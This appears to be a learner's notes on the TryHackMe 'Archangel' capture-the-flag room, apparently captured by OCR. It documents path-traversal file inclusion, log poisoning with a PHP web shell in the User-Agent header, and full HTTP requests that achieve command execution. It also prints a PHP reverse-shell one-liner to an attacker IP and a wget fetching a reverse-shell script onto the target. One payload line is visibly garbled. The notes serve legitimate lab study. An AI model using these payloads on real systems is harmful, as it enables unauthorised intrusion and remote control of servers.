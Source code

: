 - i was able to get the contents of `/var/log/apache2/access.log` in the response

however we also need to put this into `User-Agent` field

```
0xAniket: <?php system($_GET['cmd']); ?>
```



- used another writeup ,
https://0xaniket.medium.com/tryhackme-archangel-walkthrough-a1ceecde753c

captured another request with the url

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log`


and it finally worked with this one

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id HTTP/1.1
Host: mafialive.thm
User-Agent: 0xAniket: <?php system($_GET['cmd']); ?>
```


- changing the `cmd` payload to `php -r '=fsockopen("10.17.24.189",9999);exec("/bin/sh -i <&3 >&3 2>&3");'`

- It was not working so i tested it with `which php`

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=which%20php 
```


got an output in the response


```
/1.1" 200 1993 "-" "0xAniket: /usr/bin/php
```


tried all given methods in the writeup but didnt work so used another writeup

https://r4bb1t.medium.com/archangel-write-up-ce246e133cc4

here it first downloaded pentest reverse shell onto the target machine

- Used this wget command as `cmd` paylaod
```
wget http://10.17.24.189:8000/php-reverse-shell.php
```

- The file was downloaded on target machine , confirmed it using `ls`

```
0.17.24.189 - - [31/Aug/2023:21:30:17 +0530] "GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id HTTP/1.1" 200 1433 "-" "index.html
mrrobot.php
php-reverse-shell.php
php-reverse-shell.php.1
```
